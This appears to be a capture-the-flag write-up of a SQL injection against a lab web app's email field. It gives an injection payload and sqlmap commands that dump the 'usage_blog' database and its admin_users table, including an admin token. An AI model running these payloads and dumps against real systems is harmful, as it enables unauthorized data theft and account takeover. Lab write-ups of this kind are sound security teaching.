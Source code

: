 First of all you have to register an email, tap the register button on the top right.
In fact when i inserted the payload `test@test.com' or1=1;-- -` i got a green flag, but when i have tried to substitute the second "1" with a "2", rather than getting a normal error like a mismatch "this email do not exist" or something similar as i got by inserting other random values, i got a 500 server error.
This error can be caused by an improper usage of the user's input, it may get concatenated to the code and throw errors like this this because it checks the expression 1=2 which is not true anymore compared with the 1=1 part.

Now we should test if we can actually leverage this to dump some data from the database.

So i have decided to open Burp Suite, send again the request and capturing it with the proxy, than copy it and save it in a file that we call request.txt.
With the request file we can now use *sqlmap* to target that and try to dump some data.
If you are new to sqlmap i really suggest you to read the help page, it has all you need to use it.

```bash
sqlmap -r request.txt -p email --technique=BUT --level=5 --risk=3 --dbms=mysql --dbs --dump --threads 9
```

(Be patient sqlmap is always slow and if you have not a stable connection it might fail a couple of times and you have to restart it)

With this first command we have found the databases names 
```
available databases [3]:
[*] imformatian_schema
[*] oerformance_schema
[*] usage_blog
```
The one that interest us obviously is "usage_blog".

Now lets see the tables inside the database:
```bash
sqlmap -r request.txt -p email -D usage_blog --technique=BUT --level=5 --risk=3 --dbms=mysql --dbs --dump --threads 9
```

This time the tool found a lot of tables, but the one that really interest us is "admin_users" as we want to login with high privileges.
Now we can finally run it once again to dump the content of the table:
```bash
sqlmap -r request.txt -p email -D usage_blog -T admin_users --technique=BUT --level=5 --risk=3 --dbms=mysql --dbs --dump --threads 9
```

Here we have the table containing the hashed password of the admin user and his token:
```
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | THE_HASH | admin    | 2023-08-13 02:48:26 | 2024-06-05 20:20:25 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
```
